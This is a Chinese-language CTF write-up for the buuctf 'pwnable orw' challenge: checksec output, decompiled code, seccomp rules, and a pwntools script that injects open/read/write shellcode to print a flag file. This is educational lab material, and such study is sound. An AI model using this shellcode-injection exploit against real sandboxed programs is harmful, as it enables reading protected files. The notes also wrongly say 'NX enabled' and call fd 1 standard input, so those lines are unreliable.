```yaml
---
author: 
  name: Zephyr
title: pwnable orw
date: 2022-3-30 16:50:25
permalink: /pages/2e1547494524d1a0
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - sandbox
---
```


# pwnable orw

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwnable_orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

orw_seccomp函数及函数表如下

```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h] BYREF
  char *v2; // [esp+8h] [ebp-80h]
  char v3[96]; // [esp+Ch] [ebp-7Ch] BYREF
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(v3, &unk_8048640, sizeof(v3));
  v1 = 12;
  v2 = v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```



沙箱规则如下

```shell
seccomp-tools dump ./orw 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

## 思路分析

1. 目前信息：
   
   - 沙箱规则只允许`sigreturn`、`exit`、`open`、`read`、`write`这几个系统调用
   
   - `shellcode`在`bss`段且非常长
   
   - `read`读入输入的数据将其写入`shellcode`处，然后直接跳转到该处
   - Canary found
   - NX enabled
   - Has RWX segments
   
2. 思路：
   - 构造`shellcode`，使用`open`打开`flag`文件，`read`读取其中内容，`write`再打印出来

## exp

```python
from pwn import *
from LibcSearcher import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwnable_orw/orw'
# io = remote('node4.buuoj.cn', 25746)
io = process(pwnfile)
elf = ELF(pwnfile)
shellcode = asm(shellcraft.open('./flag'))
# 打开flag文件
shellcode += asm(shellcraft.read('eax', 'esp', 42))
# eax为sys_open函数结束时返回的fd文件描述符
shellcode += asm(shellcraft.write(1, 'esp', 42))
# 1为标准输入
shellcode += asm(shellcraft.exit(0))
io.sendafter('Give my your shellcode:', shellcode)
print(io.recv())
```
